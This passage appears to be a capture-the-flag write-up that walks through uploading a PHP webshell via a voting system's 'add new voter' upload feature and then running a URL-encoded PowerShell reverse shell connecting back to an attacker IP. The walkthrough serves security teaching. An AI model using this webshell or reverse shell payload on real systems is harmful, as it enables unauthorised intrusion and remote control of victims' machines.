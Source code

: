 <figure><img src="../.gitbook/assets/image (167).png" alt=""><figcaption></figcaption></figure>

The add new voter function permits upload.

<figure><img src="../.gitbook/assets/image (168).png" alt=""><figcaption></figcaption></figure>

Uploaded a php webshell:

<figure><img src="../.gitbook/assets/image (169).png" alt=""><figcaption></figcaption></figure>

Open it and run commands:

<figure><img src="../.gitbook/assets/image (170).png" alt=""><figcaption></figcaption></figure>

Let's get a reverse shell:

```
http://10.10.10.239/images/webshell.php?cmd=cmd%20/c%20powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.10.16.8%27%2C9999%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```
